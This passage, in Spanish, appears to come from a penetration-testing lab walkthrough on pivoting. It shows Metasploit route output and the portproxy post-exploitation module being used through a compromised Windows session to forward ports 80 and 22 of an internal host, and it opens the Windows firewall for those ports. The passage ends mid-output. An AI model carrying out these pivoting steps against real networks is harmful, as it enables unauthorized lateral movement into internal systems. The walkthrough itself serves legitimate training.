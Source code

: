 ```bash
   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.3.0         255.255.255.0      Session 1
   172.16.5.0         255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
```

Ahora utilizamos la funcionalidad "PortProxy" de Windows para redirigir el tráfico de un puerto en particular en el host interno 172.16.5.72 con la utilidad ```post/windows/manage/portproxy```:

```bash
msf6 post(multi/manage/autoroute) > use post/windows/manage/portproxy 
msf6 post(windows/manage/portproxy) > show options

Module options (post/windows/manage/portproxy):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   CONNECT_ADDRESS                   yes       IPv4/IPv6 address to which to connect.
   CONNECT_PORT                      yes       Port number to which to connect.
   IPV6_XP          true             yes       Install IPv6 on Windows XP (needed for v4tov
                                               4).
   LOCAL_ADDRESS                     yes       IPv4/IPv6 address to which to listen.
   LOCAL_PORT                        yes       Port number to which to listen.
   SESSION                           yes       The session to run this module on
   TYPE             v4tov4           yes       Type of forwarding (Accepted: v4tov4, v6tov6
                                               , v6tov4, v4tov6)

msf6 post(windows/manage/portproxy) > set CONNECT_ADDRESS 172.16.5.72
CONNECT_ADDRESS => 172.16.5.72
msf6 post(windows/manage/portproxy) > set CONNECT_PORT 80
CONNECT_PORT => 80
msf6 post(windows/manage/portproxy) > set LOCAL_ADDRESS 0.0.0.0
LOCAL_ADDRESS => 0.0.0.0
msf6 post(windows/manage/portproxy) > set LOCAL_PORT 6080
LOCAL_PORT => 6080
msf6 post(windows/manage/portproxy) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/portproxy) > run

[*] Setting PortProxy ...
[+] PortProxy added.
[*] Port Forwarding Table
=====================

   LOCAL IP  LOCAL PORT  REMOTE IP     REMOTE PORT
   --------  ----------  ---------     -----------
   0.0.0.0   6080        172.16.5.72   80

[*] Setting port 6080 in Windows Firewall ...
[+] Port opened in Windows Firewall.
[*] Post module execution completed
msf6 post(windows/manage/portproxy) > set CONNECT_PORT 22 
CONNECT_PORT => 22
msf6 post(windows/manage/portproxy) > set LOCAL_PORT 6022
LOCAL_PORT => 6022
msf6 post(windows/manage/portproxy) > run

[*] Setting PortProxy ...
[+] PortProxy added.
[*] Port Forwarding Table
=====================

```